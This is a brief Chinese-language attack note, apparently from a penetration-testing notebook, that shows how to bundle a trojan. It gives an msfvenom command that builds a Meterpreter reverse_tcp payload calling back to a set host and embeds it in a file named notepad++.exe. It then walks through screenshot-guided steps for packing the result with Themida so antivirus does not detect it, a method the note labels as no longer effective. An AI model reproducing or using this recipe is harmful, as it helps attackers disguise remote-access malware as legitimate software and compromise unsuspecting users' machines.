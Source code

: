 ### 捆绑木马

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.126.126 -f exe -x notepad++.exe -o notepad++.exe
```

> -x notepad.exe ：指捆绑到notepad.exe这个文件中

### 使用Themida保护文件防查杀（已失效）

>  [Themida官网下载](https://www.oreans.com/themida.php)

![](https://s21.ax1x.com/2024/05/09/pkVbQVs.png)

> 打开程序

![](https://s21.ax1x.com/2024/05/09/pkVbsG6.png)

> 将文件拖拽进程序中，加密即可

![](https://s21.ax1x.com/2024/05/09/pkVbyRK.png)

> 得到 demo_protected.exe  运行即可

